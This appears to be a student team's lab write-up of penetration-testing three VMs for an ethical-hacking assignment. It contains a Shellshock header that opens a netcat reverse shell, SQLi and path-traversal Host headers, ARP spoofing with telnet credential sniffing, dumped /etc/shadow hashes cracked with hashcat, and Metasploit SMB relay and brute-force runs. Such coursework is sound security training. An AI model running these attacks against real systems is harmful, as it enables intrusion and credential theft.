



Thought I'd summarize some data about each host here. Feel free to update this document!


# ~~Ubuntu 10.04.3~~

* Linux 2.6.17 - 2.6.36
* 2 running daemons found (lighttpd most interesting?)
* 1 High rated vulnerability

## Services & Ports

| Port | Protocol | Service 		|
|:----:|:--------:|-------------|
|23		 | tcp			|	telnetd 		|
|80		 | tcp			| lighttpd 1.4.26 |

## Ideas
The vulnerability for lighttpd suggests that there may be path traversal or SQLinjection, but ***only*** if `mod_mysql_vhost` and/or `mod_evhost`/`mod_simple_vhost` are enabled.

Supposedly, they work like this:

1. SQLi:
    * When lighttpd requests a vhost with `mod_mysql_vhost` enabled, it requests it as ```sql "SELECT docroot FROM domains WHERE '?' like domain;``` where the question-mark is not escaped. The query may look different, but this is what I've been able to find. The PoC injection is as follows: `' UNION SELECT '/`. If called with /etc/passwd as the domain, it would normally return no rows. With a union, it would return rows and the query should succeed.
    * I have not been able to make this work, instead I get a 404 Not Found, suggesting `mod_mysql_vhost` is not enabled.
2. Path traversal 
    * When lighttpd checks for a document root, it inserts the host into `/var/www/[host]`. If the `Host: ` header is an IPv6 address followed by double-dot sequences, like `Host: [::1]/../../etc/passwd` it would become like this: `/var/www/[::1]/../../etc/passwd`, leading to path traversal.
    * I have not been able to make this work either, but have been able to verify the code has not been patched. This ***should*** work, I must be doing something wrong.

#### SQLi approach:

I sent the following Proof of Concept query using wget:

`wget -O- -d --header="Host: [::1]' UNION SELECT '/" 192.168.248.129/etc/passwd`

```
---request begin---
GET /etc/passwd HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: [::1]' UNION SELECT '/
Connection: Keep-Alive

---request end---

---response begin---
HTTP/1.1 404 Not Found
Content-Type: text/html
Content-Length: 345
Date: Mon, 27 Oct 2014 12:44:24 GMT
Server: lighttpd/1.4.26

---response end--- 
```

#### Path Traversal approach:

I sent the following headers to the site, without results:

```
---request begin---
GET / HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: [::1]/../../../../../../etc/passwd
Connection: Keep-Alive

---request end---
HTTP request sent, awaiting response... 
---response begin---
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "1568625240"
Last-Modified: Fri, 03 Oct 2014 18:32:52 GMT
Content-Length: 1275
Date: Tue, 28 Oct 2014 01:15:15 GMT
Server: lighttpd/1.4.26

---response end---
```

This leads to no change, however, increasing the colons in [::1] to more than 7 will cause Internal Server Error. This is documented [here](http://redmine.lighttpd.net/projects/lighttpd/repository/revisions/2959/diff/) on line 47 in requests.c

#### Shellshock
I believe these VMs were created before shellshock was discovered / patched, or it may have slipped the authors mind. I **think** I managed to get a remote code execution running using `wget` with the header ` User-Agent: () { :; }; /bin/bash -c "nc 192.168.248.132 6666 -e /bin/bash -i"` although this should not be possible, unless the default index page which we still do not know the name of is a `cgi-bin` script, and it might be. 

The VM suddenly started pinging me relentlessly and has been doing so for hours, but I cannot seem to get a reverse TCP shell with netcat going.


#### ARP Spoof & TELNET hijack approach

Using Wireshark I saw there was a TELNET connection going to an IP that did not exist on the network. I decided to ARPSPOOF and pretend I was this IP, and then listen for TELNET connection: And I got a connection!

First, I stole the IPs with arp poisoning as such:



Then, I listened for TELNET connections, and got this:



I continued with logging into telnet, realizing John is stupid as fuck and sends his sudo password in cleartext, I could easily change the root password to `pwnd` and voíla! Rooted, bitch!




#### Looting

Having compromised this box, I thought I'd check what interesting things we can get from it. Perhaps, if we're lucky, there's something useful here. I decided to steal the `/etc/shadow` file with passwords for further investigation, and got 3 interesting ones:

```
root:$6$x9LyUphj$3cQTGIb269GBNuKc6GER29W9Ht7NmHjMRlyeR35oTTqngQHVD4gupwzSmjhAYOc6KEyfGQ32De27SgOCNzKcE.:16371:0:99999:7:::

...

jane:$1$a0rCbP9/$1FKr5sobP4rQHxuTA/l/p.:16346:0:99999:7:::
telnetd:*:16346:0:99999:7:::
john:$6$4xE5VNT4$Vb0nrZ64DGZvWmEy9sUKkCaS9O5lb50WlzSIxim6ydaCVfzWJrmLuwZIPxjgw1ZDIeQB9C9jX7qb7AtiDibjo0:16346:0:99999:7:::
user:$6$Jp01V0lm$RX7eMjNIIoCnazLNEtSAe5Uq.nQINXMOpEggvRtTEV63QEMUEpmwFMJhYzQtLT/M33Kbl5Mhr59tPJbvN/u4k1:16346:0:99999:7:::
```
Removed the uninteresting stuff for brevity. Well, here we got some interesting stuff -- we have `user`, `john` and `jane`. First of all, we already know John's password. So what about Jane and User then?

At first glance these look like regular unix SHA512 hashes -- at least John and User. But Jane's is different. 

Let's verify that. After saving Jane's password to `jane.wtf`, I ran *hashid* to get more information:

```
[root@battlestation cudaHashcat-1.31]# hashid -f jane.wtf
Analyzing '/home/amnesthesia/cudaHashcat-1.31/jane.hash'
Hashes analyzed: 1
Hashes found: 1
Output written: '/home/amnesthesia/cudaHashcat-1.31/hashid_output.txt'
[root@battlestation cudaHashcat-1.31]# cat hashid_output.txt 
Analyzing '$1$a0rCbP9/$1FKr5sobP4rQHxuTA/l/p.'
[+] MD5 Crypt
[+] Cisco-IOS(MD5)
[+] FreeBSD MD5

``` 

Looks like Jane is an MD5 Crypt hash, so let's just check User's to be sure then.

```
[root@battlestation cudaHashcat-1.31]# hashid -f user.wtf
Analyzing '/home/amnesthesia/Downloads/cudaHashcat/cudaHashcat-1.31/user.wtf'
Hashes analyzed: 1
Hashes found: 1
Output written: '/home/amnesthesia/Downloads/cudaHashcat/cudaHashcat-1.31/hashid_output.txt'

[root@battlestation cudaHashcat-1.31]# cat hashid_output.txt 
Analyzing '$6$Jp01V0lm$RX7eMjNIIoCnazLNEtSAe5Uq.nQINXMOpEggvRtTEV63QEMUEpmwFMJhYzQtLT/M33Kbl5Mhr59tPJbvN/u4k1'
[+] SHA-512 Crypt

```

Alright, so we have one MD5Crypt and one SHA512. Looks like we're gonna have to crack these passwords, and since I have an nVidia card I use cuda, and thus cudaHashcat.

##### Cracking Jane
After firing up cudaHashcat, and setting the attack mode to Straight with the 500 id representing an MD5Crypto hash, I pointed it to use the `rockyou.txt` wordlist because why not -- we might be lucky!
```
[root@battlestation cudaHashcat-1.31]# ./cudaHashcat64.bin -a 0 -m 500 /home/amnesthesia/Documents/Assignments/EthicalHacking/EHAPT-Group-Project/hash /home/amnesthesia/Wordlists/rockyou.txt 
cudaHashcat v1.31 starting...

WARNING: Hashfile '/home/amnesthesia/Documents/Assignments/EthicalHacking/EHAPT-Group-Project/hash' in line 2 ($6$4xE5VNT4$Vb0nrZ64DGZvWmEy9sUKkCaS9O5lb50WlzSIxim6ydaCVfzWJrmLuwZIPxjgw1ZDIeQB9C9jX7qb7AtiDibjo0): Signature unmatched
WARNING: Hashfile '/home/amnesthesia/Documents/Assignments/EthicalHacking/EHAPT-Group-Project/hash' in line 3 ($6$Jp01V0lm$RX7eMjNIIoCnazLNEtSAe5Uq.nQINXMOpEggvRtTEV63QEMUEpmwFMJhYzQtLT/M33Kbl5Mhr59tPJbvN/u4k1): Signature unmatched
Device #1: GeForce GTX 570, 1279MB, 1500Mhz, 15MCU
Device #1: WARNING! Kernel exec timeout is not disabled, it might cause you errors of code 702

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 8 bits, 256 entries, 0x000000ff mask, 1024 bytes
Rules: 1
Applicable Optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c
Device #1: Kernel ./kernels/4318/m00500.sm_20.64.ptx
Device #1: Kernel ./kernels/4318/bzero.64.ptx

Cache-hit dictionary stats /home/amnesthesia/Wordlists/rockyou.txt: 139921497 bytes, 14343296 words, 14343296 keyspace

$1$a0rCbP9/$1FKr5sobP4rQHxuTA/l/p.:pissoff
```

**AND WE WERE!**

##### Cracking User

Let's try the same on User, but with SHA512 of course.

```
[root@battlestation cudaHashcat-1.31]# ./cudaHashcat64.bin -a 0 -m 1800 /home/amnesthesia/Documents/Assignments/EthicalHacking/EHAPT-Group-Project/hash /home/amnesthesia/Wordlists/rockyou.txt 
cudaHashcat v1.31 starting...

WARNING: Hashfile '/home/amnesthesia/Documents/Assignments/EthicalHacking/EHAPT-Group-Project/hash' in line 1 ($1$a0rCbP9/$1FKr5sobP4rQHxuTA/l/p.): Signature unmatched
Device #1: GeForce GTX 570, 1279MB, 1500Mhz, 15MCU
Device #1: WARNING! Kernel exec timeout is not disabled, it might cause you errors of code 702

Hashes: 2 hashes; 2 unique digests, 2 unique salts
Bitmaps: 8 bits, 256 entries, 0x000000ff mask, 1024 bytes
Rules: 1
Applicable Optimizers:
* Zero-Byte
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c
Device #1: Kernel ./kernels/4318/m01800.sm_20.64.ptx
Device #1: Kernel ./kernels/4318/bzero.64.ptx

Cache-hit dictionary stats /home/amnesthesia/Wordlists/rockyou.txt: 139921497 bytes, 14343296 words, 14343296 keyspace

$6$Jp01V0lm$RX7eMjNIIoCnazLNEtSAe5Uq.nQINXMOpEggvRtTEV63QEMUEpmwFMJhYzQtLT/M33Kbl5Mhr59tPJbvN/u4k1:summer

```

There we have them.

Password for User is **summer**

Password for Jane is **pissoff**

Very fitting, as October means summer is pissing off ;)

Well, time to check the Windows box!

# Windows Vista Business (build 6000)

* Windows Vista Business (build 6000)
* nmap guesses Windows 7 SP0-SP1 / Server 2008 / Win8
* 4-9 running services found (SMB most interesting?)
* 1 High rated vulnerability

## Services & Ports

| Port | Protocol | Service 		|
|:----:|:--------:|-------------|
|135		 | tcp			|	msrpc 		|
|139		 | tcp			| netbios-ssn |
|445		 | tcp			| netbios-ssn |
|49152		 | tcp			|	msrpc 		|
|49153		 | tcp			|	msrpc 		|
|49154		 | tcp			|	msrpc 		|
|49155		 | tcp			|	msrpc 		|
|49156		 | tcp			|	msrpc 		|
|49157		 | tcp			|	msrpc 		|

## Ideas

The only vulnerability with a **High** rating is the SMB one. We don't want Denial of Service, but we want the RCE one. I got quite far with it, and managed to collect nonce's from Windows by following the [PoC](http://www.hexale.org/advisories/OCHOA-2010-0209.txt). Using these Ruby scripts (**Note:** Replace : with `do` after the `while` statements to run them), I got stuck at the point where I had to get the user to visit a HTML page to actually "sign" these nonces for us. Had the user been logged in and performed any web requests, perhaps *ARP poisoning* or *DNS poisoning* had been possible to achieve this, but as no user is logged in, this was a dead end.

Even though it's Vista, I think this machine may be a decoy and not vulnerable without user interaction. Several exploits seem to exist for Vista SP1, ironically, and I have tried them all. This Vista is not patched it seems, and the exploits available require user interaction.


### Following up on the SMB trail

Alright, first of all ... Let's see what info we can get about this system.

```
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(smb_version) > set RHOSTS 192.168.248.131
msf auxiliary(smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     192.168.248.131  yes       The target address range or CIDR identifier
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_version) > run

[*] 192.168.248.131:445 is running Windows Vista Business (Build 6000) (language: Unknown) (name:LH-0XZPOTYEAFVA) (domain:WORKGROUP)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Well, damn. This much we already knew ... 

Using `nbtscan`, I tried to see what was on the Windows SMB

```
root@battlestation:~# nbtscan -v 192.168.248.131
Doing NBT name scan for addresses from 192.168.248.131


NetBIOS Name Table for Host 192.168.248.131:

Incomplete packet, 209 bytes long.
Name             Service          Type             
----------------------------------------
LH-0XZPOTYEAFVA  <00>             UNIQUE
WORKGROUP        <00>              GROUP
LH-0XZPOTYEAFVA  <20>             UNIQUE
WORKGROUP        <1e>              GROUP
WORKGROUP        <1d>             UNIQUE
__MSBROWSE__     <01>              GROUP

Adapter address: 00:0c:29:12:ba:de
----------------------------------------

```

I also, rather blindly, attempted to use an otherwise rather good RCE in `smb_relay` using Metasploit, and proceeded with:

```
msf> use exploit/windows/smb/smb_relay
msf exploit(smb_relay) > set payload windows/meterpreter/reverse_tcp
msf exploit(smb_relay) > set SMBHOST 192.168.248.131
msf exploit(smb_relay) > set SRVPORT 6969
msf exploit(smb_relay) > set LHOST 192.168.248.132
msf exploit(smb_relay) > set LPORT 7070
msf exploit(smb_relay) > show options

Module options (exploit/windows/smb/smb_relay):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SHARE       ADMIN$           yes       The share to connect to
   SMBHOST     192.168.248.131  no        The target SMB server (leave empty for originating system)
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     6969             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL for incoming connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   SSLVersion  SSL3             no        Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.248.132  yes       The listen address
   LPORT     7070             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(smb_relay) > exploit
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.248.132:6868 
[*] Server started.
msf exploit(smb_relay) > sessions

Active sessions
===============

No active sessions.

```

Seems I got nothing ... Hmm ... Maybe I just misinterpreted the output of `nbtscan`? It's probably not share names but group/domain names. I'll try to smb_enumshares and see what we can get?

```
msf > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > show options

Module options (auxiliary/scanner/smb/smb_enumshares):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   LogSpider        3                no        0 = disabled, 1 = CSV, 2 = table (txt), 3 = one liner (txt) (accepted: 0, 1, 2, 3)
   MaxDepth         999              yes       Max number of subdirectories to spider
   RHOSTS                            yes       The target address range or CIDR identifier
   SMBDomain        WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                           no        The password for the specified username
   SMBUser                           no        The username to authenticate as
   ShowFiles        false            yes       Show detailed information when spidering
   SpiderProfiles   true             no        Spider only user profiles when share = C$
   SpiderShares     false            no        Spider shares recursively
   THREADS          1                yes       The number of concurrent threads
   USE_SRVSVC_ONLY  false            yes       List shares only with SRVSVC

msf auxiliary(smb_enumshares) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_enumshares) > set THREADS 20
THREADS => 20
msf auxiliary(smb_enumshares) > run

[-] 192.168.248.131:139 - Login Failed: The SMB server did not reply to our request
[*] 192.168.248.131:445 - Windows Vista Business (Build 6000) (Unknown)
[*] 192.168.248.131:445 - No shares collected
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_enumshares) > set SMBDomain __MSBROWSE__
SMBDomain => __MSBROWSE__
msf auxiliary(smb_enumshares) > run

[-] 192.168.248.131:139 - Login Failed: The SMB server did not reply to our request
[*] 192.168.248.131:445 - Windows Vista Business (Build 6000) (Unknown)
[*] 192.168.248.131:445 - No shares collected
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Using the loot from Ubuntu

Well, now that we have some information from the compromised machine, we can use that to continue checking this Windows box.

First of all, let's see if we can log in. Let's try with `User` and the password `summer` we cracked!

#### Logging in
```
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RECORD_GUEST      false            no        Record guest-privileged random logins to the database
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain                          no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(smb_login) > set SMBPass summer
SMBPass => summer
msf auxiliary(smb_login) > set SMBUser User
SMBUser => User
msf auxiliary(smb_login) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_login) > run

[*] 192.168.248.131:445 SMB - Starting SMB login bruteforce
[+] 192.168.248.131:445 SMB - Success: 'WORKSTATION\User:summer'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) > 
```

Look at that! We got loggedin! :D Let's continue checking what other users exist on this system, maybe Jane is here?

#### Enumerating users

Using `smb_enumusers` and our log in, lets see what we find.

```
msf auxiliary(psexec_loggedin_users) > use auxiliary/scanner/smb/smb_enumusers
msf auxiliary(smb_enumusers) > show options

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_enumusers) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_enumusers) > set SMBUser User
SMBUser => User
msf auxiliary(smb_enumusers) > set SMBPass summer
SMBPass => summer
msf auxiliary(smb_enumusers) > run

[*] 192.168.248.131 LH-0XZPOTYEAFVA [ Admin, Administrator, Guest, User ] ( LockoutTries=0 PasswordMin=0 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Looks like Jane isn't here. But `Admin`, `Administrator`, `Guest` and our `User` is. Hmm, well, `Administrator` exists by default in Windows, but as far as I know, `Admin` does not. Maybe NOW we can get some shares, since we can log in! Lets see what shares are available here, let's use `smb_enumshares` and see what we find.


#### Enumerating shares


```
msf > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > show options

Module options (auxiliary/scanner/smb/smb_enumshares):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   LogSpider        3                no        0 = disabled, 1 = CSV, 2 = table (txt), 3 = one liner (txt) (accepted: 0, 1, 2, 3)
   MaxDepth         999              yes       Max number of subdirectories to spider
   RHOSTS                            yes       The target address range or CIDR identifier
   SMBDomain        WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                           no        The password for the specified username
   SMBUser                           no        The username to authenticate as
   ShowFiles        false            yes       Show detailed information when spidering
   SpiderProfiles   true             no        Spider only user profiles when share = C$
   SpiderShares     false            no        Spider shares recursively
   THREADS          1                yes       The number of concurrent threads
   USE_SRVSVC_ONLY  false            yes       List shares only with SRVSVC

msf auxiliary(smb_enumshares) > set SMBUser User
SMBUser => User
msf auxiliary(smb_enumshares) > set SMBPass summer
SMBPass => summer
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_enumshares) > run

[-] 192.168.248.131:139 - Login Failed: The SMB server did not reply to our request
[*] 192.168.248.131:445 - Windows Vista Business (Build 6000) (Unknown)
[+] 192.168.248.131:445 - ADMIN$ - (DISK) 
[+] 192.168.248.131:445 - C$ - (DISK) 
[+] 192.168.248.131:445 - IPC$ - (IPC) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Okay! So we know we have `ADMIN$`, `C$`and `IPC$`.

After attempting to log in to `SAMBA` multiple times, it seems we have no read/write access to any of these shares. Damn. Dead-end? We need higher privileges. Alright so, lets try a dictionary attack against the users we found as well then.

First, we make a list of the users and save it as `userlist`
```
root@battlestation:~# printf "Admin\nAdministrator\nGuest" > userlist
```

This will be the list of all users we'll try. Now, we'll use the same wordlist again and set that as our `PASS_FILE` and this user list as our `USER_FILE` for the `smb_login` auxiliary scanner module in metasploit. Hopefully, if we're lucky, we can find the right password for any of these users:

```
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RECORD_GUEST      false            no        Record guest-privileged random logins to the database
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain                          no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(smb_login) > set PASS_FILE /root/rockyou.txt
PASS_FILE => /root/rockyou.txt
msf auxiliary(smb_login) > set USER_FILE /root/userlist
USER_FILE => /root/userlist
msf auxiliary(smb_login) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(smb_login) > run

[*] 192.168.248.131:445 SMB - Starting SMB login bruteforce

...

[-] 192.168.248.131:445 SMB - Failed: 'WORKSTATION\Admin:082807', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 Wordcount=0)
...

```

So far ... Nothing. :(

# OpenBSD 4.x

* OpenBSD 3.8 - 4.7
* 4 running daemons found
* 3 Medium vulnerabilities (SSH most interesting?)

## Services & Ports

| Port | Protocol | Service 		|
|:----:|:--------:|-------------|
|13		 | tcp			|	daytime 		|
|22		 | tcp			| OpenSSH 5.6 |
|37		 | tcp			|  time(32bit)|
|113	 | tcp			| ident				|

## Gaining Access
We have logged in as John on the Ubuntu box. We found User to work on the Windows box. And we have a third user, whose password we have also cracked: `jane`. 

The nmap scan, the results presented above, shows that OpenSSH is running on the default SSH port, so let's see if we can get in as the third user.

```
root@battlestation:~# ssh jane@192.168.248.130
jane@192.168.248.130's password: 
Last login: Wed Oct 29 18:13:59 2014
Hi - congratulations on the login!
Well played!

Can you evolve and get more useful access here?

 - L

$
```

Well, look at that -- surely we could! Well, what now then? That is one *damn* provocative MotD, so I sure hope we can get in here.

## Going on BSD Safari
Now that we're in, we should have a look around. As Les Stroud in Survivorman said, when you set up camp in unknown territory (this BSD box), it's always a good plan to make a map for yourself. Scout the area, mark the landmarks -- maybe it won't be exact, but it'll guide you in the future. Let's listen to Survivorman and do exactly that!

First of all -- **where am I?!**

```
$ uname -a
OpenBSD m2.localdomain 4.8 GENERIC#136 i386
```

### Who lives here?
Let's check who else is on this box! 

```
$ cat /etc/passwd                                                              
root:*:0:0:Charlie &:/root:/bin/ksh
...
john:*:1000:10:John:/home/john:/bin/ksh
jane:*:1001:1001:Jane:/home/jane:/bin/ksh
tarzan:*:1002:1002:John Clayton III:/home/tarzan:/bin/ksh
$
```

Alright, that's interesting. John is on here too? And Tarzan, Jane's Romeo?

```
$ cat /etc/group                                                               
wheel:*:0:root,john
...
kmem:*:2:root
sys:*:3:root
tty:*:4:root
operator:*:5:root
...
staff:*:20:root
...
sshd:*:27:
...
guest:*:31:root
...
jane:*:1001:
tarzan:*:1002:
$ 

```

Okay, so we have mainly one interesting group here: `wheel`. The sudoers group. It seems that once again, John is privileged - while tarzan and jane are not.

Let's check out Tarzan's `/home/`, and why not John's as well? After all, John is the boss here.

```
$ ls -la /home/tarzan
total 32
drwxr-xr-x  3 tarzan  tarzan  512 Oct  3 21:54 .
drwxr-xr-x  5 root    wheel   512 Oct  3 21:54 ..
-rw-r--r--  1 tarzan  tarzan   22 Oct  3 21:54 .Xdefaults
-rw-r--r--  1 tarzan  tarzan  773 Oct  3 21:54 .cshrc
-rw-r--r--  1 tarzan  tarzan  398 Oct  3 21:54 .login
-rw-r--r--  1 tarzan  tarzan  113 Oct  3 21:54 .mailrc
-rw-r--r--  1 tarzan  tarzan  218 Oct  3 21:54 .profile
drwx------  2 tarzan  tarzan  512 Oct  3 21:54 .ssh
$ ls -la /home/john
total 32
drwxr-xr-x  3 john  users  512 Oct  3 21:02 .
drwxr-xr-x  5 root  wheel  512 Oct  3 21:54 ..
-rw-r--r--  1 john  users   22 Aug 16  2010 .Xdefaults
-rw-r--r--  1 john  users  773 Aug 16  2010 .cshrc
-rw-r--r--  1 john  users  398 Aug 16  2010 .login
-rw-r--r--  1 john  users  113 Aug 16  2010 .mailrc
-rw-r--r--  1 john  users  218 Aug 16  2010 .profile
drwx------  2 john  users  512 Oct  3 21:04 .ssh
$

```

Hmm, well, okay -- looks like tarzan is *actually* called `John Clayton III`. So ... maybe John is *Tarzan*? I have 3 ideas: 

* Maybe tarzan has John's password?
* Maybe john has the same password as on Ubuntu?
* Maybe tarzan has the *other* thing printed in Ubuntu's TCP distress signal?

Recall:

```
root@battlestation:~# dsniff -t 23/tcp=telnet
dsniff: listening on eth0
-------------
10/28/14 03:31:48 tcp 172.16.57.129.27008 -> 172.16.57.130.23 (telnet)
john
meTarzanSuperUser
sudo su +
meTarzanSuperUser
AiAiAi....
```

Unfortunately, both `sudo su +` and `AiAiAi....` were followed by strange (possibly unicode) characters we couldn't really see in our terminal.

But, let's try these logins!

#### Tarzan! It's Jane! Let me in!

```
$ login tarzan
Password: [meTarzanSuperUser]
Login incorrect
$ Login tarzan
Password: [AiAiAi....]
Login incorrect
```

Well then ... What about John?

#### JOHN!

```
$ login john
